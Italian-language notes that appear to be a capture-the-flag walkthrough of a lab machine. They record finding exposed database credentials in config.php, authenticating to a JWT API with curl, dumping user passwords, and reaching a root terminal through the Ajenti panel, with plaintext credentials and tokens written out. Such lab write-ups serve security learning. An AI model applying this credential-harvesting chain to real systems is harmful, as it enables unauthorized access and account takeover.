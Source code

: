 Cosa fare:

1) trovato ftp con file:
lftp 10.10.10.137:/webapp> cat for_Chihiro.txt
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies !

Derry

2) trovate credenziali db:
http://10.10.10.137/config.php
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword = 'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);

3) da vedere porta 3000 e 8000

1) servizio 3000 JWT
2) fare una curl:
3) curl -v -H "Content-Type: application/json" -d '{"username":"admin", "password":"Zk6heYCyv6ZE9Xcg"}' http://10.10.10.137:3000/login
4)
5) curl -H "x-access-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.jSCddVJnTeeEbRwoa97SiCKJPw7zHkE63HwivcG01eM" http://10.10.10.137:3000/
6) curl -H "x-access-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.jSCddVJnTeeEbRwoa97SiCKJPw7zHkE63HwivcG01eM" http://10.10.10.137:3000/users/admin
7) {"name":"Admin","password":"WX5b7)>/rp$U)FW"}
6){"name":"Yuri","password":"bet@tester87"}
7){"name":"Dory","password":"5y:!xa=ybfe)/QD"
10) http://10.10.10.137/management/ 
11) {"name":"Derry","password":"rZ86wwLvx7jUxtch"}
12) in managament/config.json
13) c'è user: root "password": "KpMasng6S5EtTy9Z",
14) Sono le credenziali di ajenti!
15) poi su ajenti, aprire terminale > nuovo terminale e sei root!

